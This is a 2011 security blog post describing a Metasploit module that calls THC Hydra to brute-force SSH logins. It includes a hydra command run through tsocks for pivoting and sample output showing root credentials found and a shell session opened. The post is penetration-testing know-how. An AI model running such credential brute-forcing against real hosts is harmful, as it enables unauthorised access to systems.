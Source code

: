 ```yaml
---
layout: post
title: Brute-forcing SSH accounts with THC Hydra and Metasploit
date: '2011-08-05T19:35:00.001+02:00'
author: Xavier Garcia
tags:
- ssh
- Metasploit
- hydra
modified_time: '2011-08-05T19:36:55.383+02:00'
blogger_id: tag:blogger.com,1999:blog-8534555958859253862.post-369143925411102477
blogger_orig_url: http://www.shellguardians.com/2011/08/brute-forcing-ssh-accounts-with-thc.html
---
```

I have written a simple Auxiliary module for [Metasploit](http://www.metasploit.com/) that permits to brute-force SSH accounts with [THC Hydra](http://thc.org/thc-hydra/) and load the sessions in  [Metasploit](h
ttp://www.metasploit.com/).

The approach is as simple as executing [Hydra](http://thc.org/thc-hydra/) from the shell and recovering the valid credentials with a regular expression. After this, we o nly have to open a new session with the  SSH libraries available in the framework.

As a side note, this module cannot be used through pivoting like any external program, but the code can be modified to call hydra with a wrapper like [tsocks](http://tsocks.sourceforge.net/) and then scan trough the [Socks4a](http://www.metasploit.com/modules/auxiliary/server/socks4a) server module.

```shell
$ tsocks hydra -f -o {logfile} -w {timeout} -t {threads} \
  -s {rport} -C{credentials} {ip}  ssh2
```
**NOTE**: Some of the code is borrowed from the existing SSH auxiliary modules.  

Example output:

```
msf auxiliary(ssh_hydra) > info
  
    Name: Scanning SSH servers with Hydra  
    Module: auxiliary/scanner/ssh/ssh_hydra  
    Version: 1  
    License: Metasploit Framework License (BSD)  
    Rank: Normal  
  
Provided by:  
  ghosthunter  
  
Basic options:  
  Name         Current Setting   Required  Description  
  ----         ---------------   --------  -----------  
  CREDENTIALS  /tmp/credentials  yes       colon separated list of credentials  
  RHOSTS       X.X.X.X           yes       The target address range or CIDR identifier  
  RPORT        22                yes       The target port  
  TASKS        8                 yes       number of connexions in parallel  
  TIMEOUT      30                yes       timeout for the responses  
  
Description:  
This module will launch THC hydra to brute-force the ssh credentials and then open the
sessions with the valid ones.  
  
  
msf auxiliary(ssh_hydra) > run  
  
[*] X.X.X.X:22, SSH server version: SSH- 1.99-OpenSSH_4.4  
[*] Attacking X.X.X.X  
[*] X.X.X.X:22  /tmp/credentials - Calling Hydra  
  
[*] Valid credentials found: X.X.X.X root root  
[*] Command shell session 1 opened (Y.Y.Y.Y:35009 -> X.X.X.X:22) at Fri Aug 05 19:06:00 +0200 2011  
[*] Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed
```
  
The module can be found here: [ssh_hydra.rb](http://ghosthunter.googlecode.com/svn/trunk/metasploit/auxiliary/scanner/ssh/ssh_hydra.rb)
